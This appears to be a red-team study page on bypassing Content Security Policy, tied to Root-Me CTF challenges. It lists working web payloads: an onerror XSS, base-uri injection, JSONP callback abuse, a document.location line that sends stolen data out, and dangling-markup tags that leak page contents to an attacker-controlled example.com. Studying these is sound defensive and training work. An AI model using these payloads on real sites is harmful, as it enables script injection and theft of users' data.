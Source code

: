 # Content Security Policy (CSP)

[![csp_bypass_nonce](../../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)

<div class="row row-cols-lg-2"><div>

The Content Security Policy (CSP) is a security mechanism designed to make XSS and other web client attacks harder.

* 🐛 We can block inline code execution <small>(no onload/...)</small>
* 🖼️ We can configure the image policy <small>(no external? whitelist? local?)</small>
* 💥 We can configure the script policy <small>(no external? whitelist? local?)</small>
* 🐍 We can configure URLs that we can connect to <small>(ex: fetch(URL))</small>
* ...

We can either use `curl -i URL` and manually inspect the CSP header and meta-tag or use Google [CSP Evaluator](https://csp-evaluator.withgoogle.com/).
</div><div>

Developers can allow some elements to bypass the CSP, such as one specific element allowed to load an external script using a `nonce`.

```html!
<script nonce="some_nonce_here">/*inline code allowed*/</script>
```

☠️ Nonce must be unique and not predictable for them to be useful.

📚 A great reference: [Beyond XSS, CSP bypass](https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/) <small>(0.1k ⭐)</small>.
</div></div>

<hr class="sep-both">

## CSP Bypass

*CSP policies may not be correctly configured and bypassed. Refer to [XSS Malicious Code](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md#xss-malicious-code) and [XSS Filter Bypass](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md#xss-filter-bypass) for more details.*

<div class="row row-cols-lg-2"><div>

#### CSP Bypass — unsafe-inline

[![csp_bypass_inline_code](../../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)

If `unsafe-inline` is enabled, you can execute code using:

```html!
<img src=1 onerror="your_code_here" />
```

<br>

#### CSP Bypass — base-uri

[![csp_bypass_nonce_2](../../../../../_badges/rootme/web_client/csp_bypass_nonce_2.svg)]()

If the CSP is lax enough, we may be able to inject a base-uri to an external website we control, allowing us to load files from our server.

```html!
<base href="https://example.com" target="_blank">
<img src="img/dummy.jpg"/>
<!-- https://example.com/img/dummy.jpg -->
```
</div><div>

#### CSP Bypass — connect-src 'none'

[![csp_bypass_inline_code](../../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![csp_bypass_jsonp](../../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)
[![csp_bypass_nonce](../../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)

If `connect-src` is `none`, any external request will fail. Try:

* `document.location = 'URL/?param=' + <stolen_data>` <small>(CTF-only)</small>
* Automatically submit a hidden form after injecting data inside. Refer to [CSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/csrf.md).

<br>

#### CSP Bypass — JSONP — script-src

[![csp_bypass_jsonp](../../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

JSONP was designed to ease the process of connecting an API with the website code: the developer can write code automatically executed after the API has been called within the URL ☠️.

Well-known list of public JSONP APIs: [JSONBee](https://github.com/zigoo0/JSONBee) <small>(0.7k ⭐)</small>. Look if your CSP policy is lax enough to allow any of them to be loaded.

```html!
<!-- don't forget "defer" or "async" -->
<script defer src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);alert(2)"></script>
```
</div></div>

<hr class="sep-both">

## Dangling markup

[![csp_bypass_dangling_markup](../../../../../_badges/rootme/web_client/csp_bypass_dangling_markup.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup)
[![csp_bypass_dangling_markup2](../../../../../_badges/rootme/web_client/csp_bypass_dangling_markup2.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup-2)

<div class="row row-cols-lg-2"><div>

When the CSP is too restrictive and the goal is only to extract some data from the page, we can use dangling markup.

In a nutshell, we insert a tag that will mess with the browser renderer and export the rest of the page to a endpoint we defined.

All of these in Firefox will result in a request to `https://example.com/?<the rest of the HTML page here until the next quote>`.

```html!
<link rel="prefetch" href='https://example.com/?
```
```html!
<img src='https://example.com/?
```
```html!
<meta http-equiv="refresh" content="4; URL='https://example.com/?
```
```html!
<style>@import//example.com?
```

📚 Use either `'` or `"` according to the one that gives the largest range.
</div><div>

Chrome prevents HTTP URLs from containing HTML tags which reduce the number of payloads we can use. FTP didn't work.

The payload below doesn't work in recent versions of edge.

```html!
<body background='//example.com?
<table background='//example.com?
<thead background='//example.com?
<td background='//example.com?
```
</div></div>